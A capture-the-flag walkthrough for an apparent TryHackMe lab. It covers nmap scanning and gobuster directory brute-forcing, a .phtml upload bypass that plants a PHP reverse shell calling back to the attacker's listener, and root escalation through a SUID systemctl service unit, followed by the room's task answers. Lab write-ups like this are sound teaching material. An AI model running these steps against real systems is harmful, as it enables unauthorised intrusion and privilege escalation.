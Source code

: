Hi!

Let's start!

1. To begin with, we must classically connect to a VPN using OpenVPN.
Go to your [profile](https://tryhackme.com/access), download the file to connect, go to "/Downloads" and create the new
terminal:

```$ openvpn <Name>.ovpn ```

2. After that, we open the quest no. 1 and launch the instance (Deploy).

3. After all this, we can slowly start. The first thing we do is scan the machine:

```$ nmap -sC -sV -T4 -A <IpAdress> -oA nmap.nmap```

4. Scanning show us  the [Apache server](https://en.wikipedia.org/wiki/Apache_HTTP_Server) is running on port "3333". So we type in your browser
Address: Ip: 3333 and we look at what's on it.

5. Now, due to the fact that searching manually for paths on the page can be very monotonous and ineffective, we will use [dirb](https://medium.com/tech-zoom/dirb-a-web-content-scanner-bc9cba624c86),
[dirbuster](https://ourcodeworld.com/articles/read/417/how-to-list-directories-and-files-of-a-website-using-dirbuster-in-kali-linux), [wfuzz](https://wfuzz.readthedocs.io/en/latest/user/basicusage.html), [gobuster](https://tools.kali.org/web-applications/gobuster). Depending on what is more convenient for you. I will use a gobuster:

```$ gobuster dir -u http://<ip>:3333/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt```

6. After a while we find the path "/internal", so we check to see what's there. (Ip: 3333 / internal). We can see that on the site
we can send files to the server. The first thing we check is what files can be sent. Mostly cases can be omitted.

7. Since I'm on the "Kali" system, I will use PHP shell. Copy reverse-shell to your working directory:

```$ cp /usr/share/webshells/php/php-reverse-shell.php .```

8. We now need to edit the file to our Ip and Port address. The Ip address is the address that appears after "ifconfig" is entered
next to "tun0" (your ip in VPN). The port set on the "hacker" 4444. ($ ip, $ port). And let's save the file.
(I used the "nano" editor, but you can use the editor that is more convenient for you, e.g. "vi")

9. To intercept reverse shell it would be nice to listen to the port we set up. We will use [NetCat](https://en.wikipedia.org/wiki/Netcat) for this:

```$ nc -nlvp 4444``` (<--port)

10. You can make copies of this file to different ".html" ".php" ".php1" ".php2" ".php5" ".phtml" paths. I checked
trying to upload files manually, but you can use for example "BurpSuite".

11. After checking, the server managed to send the file with the extension ".phtml". So we check where the file was uploaded to
to do this, add "/ uploads" to the path and see reverse file.

12. We click on the file on the server (in the browser) and in the terminal where we started netcat we see the connection and can start issuing commands.

13. Typing for example "id" "whoami" we can see our permissions.

14. At this point, we need to see what we are authorized to do when entering e.g. home:
```
$ cd /home
$ ls
$ cd bill
$ cat user.txt
```

15. The first "flag" for the user was displayed.

16. Now we are looking for SUID binaries. [SUID](https://en.wikipedia.org/wiki/Setuid) stands for the permissions of a given user to certain files:

```$ find / -user root -perm -4000 -print 2>/dev/null```

17. We now see a few files with the SUID flag set.

18. Now we need to make an attack called [Privilege Escalation](https://en.wikipedia.org/wiki/Privilege_escalation) to elevate our system privileges. By scanning
the SUID flag we found a file named [systemctl](https://www.freedesktop.org/software/systemd/man/systemctl.html).

Systemctl is a binary file that controls user interfaces and is responsible e.g. for services run during boot.
By default, systemctl will search files in "/ etc / system / systemd" in order to search and service units.

19. On this machine we cannot create new files in the paths belonging to root, but we can change the [variables environment](https://en.wikipedia.org/wiki/Environment_variable) in an already existing one, so we can do PrivEsc.

20. The first thing we do is create an environment variable:

```$ priv=$(mktemp).service```

Now we need to create a unit file and assign it to an environment variable:
```
$ echo '[Service]
ExecStart=/bin/bash -c "cat /root/root.txt > /opt/flag"
[Install] 
WantedBy=multi-user.target' > $priv
```

( Don't be afraid to use enter until the end of '<- then you can continue typing on a new line. )

21. What we just did is create a service that will execute "Bash", then read the falge from root's root directory and save it to the file / flag in the "/ opt" directory.

22. Now we need to fire the unit file with "systemctl".

```$ /bin/systemctl link $priv

$ /bin/systemctl enable --now $priv
```

23. Now we can see the flag file in the directory "/opt".

```$ cat flag```

24. That's it. We just executed the command for the root user.

// Completing the headings

Task 2.

1) 6

2) 3.5.12

3) 400

4) DNS

5) Ubuntu

6) 3333

Task 3.

1) /internal/

Task 4.

1) .php

2) .phtml

3) bill

4) YOUR USER FLAG 

Task 5.

1) /bin/systemctl

2) YOUR ROOT FLAG 
